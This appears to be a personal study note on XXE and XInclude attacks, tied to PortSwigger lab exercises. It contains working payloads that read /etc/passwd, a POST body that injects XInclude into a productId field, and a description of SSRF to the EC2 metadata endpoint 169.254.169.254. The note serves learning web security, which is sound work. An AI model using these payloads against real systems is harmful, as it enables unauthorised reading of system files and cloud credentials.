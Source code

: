 ```bash
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
     - payload for the only xml 
```


```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude">

<xi:include parse="text" href="file:///etc/passwd"/></foo>

     - payload for xinclude

```
  

  

----------------------- Labs on Portswigger ----------------------------------

  

```bash
Exploiting XXE using external entities to retrieve files

     - if POST method include xml data to send

```
  
```bash

Exploiting XXE to perform SSRF attacks

     - the lab has a simulated aws cloud and needs to access the metadata of ec2, the productId needs an id, accessing the default url which is 169.254.169.254 should have a number, so we access the url by supplying the needs said on the response "invalid productId: latest", so we type 169.254.169.254/latest and the response will continue to give information until I solved the lab
```

  
#### XInclude Attacks 

```bash
Exploiting XInclude to retrieve files

     - POST method with productId can be inserted by Xinclude to retrieve files

     data sent:  productId=<productID xmlns:xi="http://www.w3.org/2001/XInclude">

                       <xi:include parse="text" href="file:///etc/passwd"/></productID>&storeId=1

```
  

```bash
Exploiting XInclude to retrieve files

     - POST method with productId can be inserted by Xinclude to retrieve files

     data sent:  productId=<productID xmlns:xi="http://www.w3.org/2001/XInclude">

                       <xi:include parse="text" href="file:///etc/passwd"/></productID>&storeId=1

```

  
SVG stands for Scalable Vector Graphics.

SVG defines vector-based graphics in XML format.

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(49).png)

  

  

Hostname extracted:


![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(50).png)